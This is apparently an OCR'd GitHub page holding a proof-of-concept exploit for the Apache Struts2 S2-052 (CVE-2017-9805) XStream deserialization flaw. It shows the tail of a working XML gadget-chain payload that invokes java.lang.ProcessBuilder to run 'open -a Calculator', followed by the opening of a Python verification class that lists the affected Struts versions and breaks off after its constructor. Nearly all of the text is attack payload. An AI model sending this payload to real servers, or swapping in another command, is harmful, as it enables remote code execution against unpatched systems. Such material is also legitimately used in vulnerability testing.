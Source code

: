 ```java
                        <command>
                            <string>open</string>
                            <string>-a</string>
                            <string>Calculator</string>
                        </command>
                        <redirectErrorStream>false</redirectErrorStream>
                        </next>
                    </iter>
                    <filter class="javax.imageio.ImageIO$ContainsFilter">
                        <method>
                        <class>java.lang.ProcessBuilder</class>
                        <name>start</name>
                        <parameter-types/>
                        </method>
                        <name>foo</name>
                    </filter>
                    <next class="string">foo</next>
                    </serviceIterator>
                    <lock/>
                </cipher>
                <input class="java.lang.ProcessBuilder$NullInputStream"/>
                <ibuffer></ibuffer>
                <done>false</done>
                <ostart>0</ostart>
                <ofinish>0</ofinish>
                <closed>false</closed>
                </is>
                <consumed>false</consumed>
            </dataSource>
            <transferFlavors/>
            </dataHandler>
            <dataLen>0</dataLen>
        </value>
        </jdk.nashorn.internal.objects.NativeString>
        <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
    </entry>
    <entry>
        <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
        <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    </entry>
</map>          
```

### POC

```python
#!/usr/bin/env python3

import requests

class S2_052_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'S2-052漏洞,又名CVE-2017-9805漏洞',
            'description': 'Struts2 Remote Code Execution Vulnerability, Struts 2.1.6 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12',
            'date': '2017-09-05',
            'type': 'RCE'
        }
        self.url = url
```